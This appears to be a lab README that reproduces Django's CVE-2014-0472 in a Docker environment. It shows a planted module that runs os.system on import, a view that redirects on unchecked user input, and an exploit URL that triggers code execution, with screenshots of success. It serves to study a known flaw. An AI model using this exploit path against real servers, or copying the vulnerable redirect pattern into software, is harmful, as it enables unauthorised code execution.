 # CVE-2014-0472

Use 

```
docker-compose up -d
```

Access localhost:8083

Reference:
[https://www.djangoproject.com/weblog/2014/apr/21/security/](https://www.djangoproject.com/weblog/2014/apr/21/security/)
> 
> 1. One or more views are present which construct a URL based on user input (commonly, a "next" parameter in a querystring indicating where to redirect upon successful completion of an action).
> 2. One or more modules are known to an attacker to exist on the server's Python import path, which perform code execution with side effects on importing.


In `tests.py`
```python
def evil_function():
    print("exploit successful")
    os.system("echo > /tmp/`whoami` ")
    return os.getuid()


evil = evil_function()
```

In `views.py`
```python
def redirect_test(request):
        page = request.GET.get('page', None)
        if page is not None:
                redirect(page)
        return HttpResponse("OK")
```

Use redirect function to call to the evil function

![avater](img/tmp_list.png)

Use exp

```
http://your-ip:8083/example?page=app.tests.evil
```

![avater](img/exec_evil.png)

Exploited


![avater](img/exploit.png)

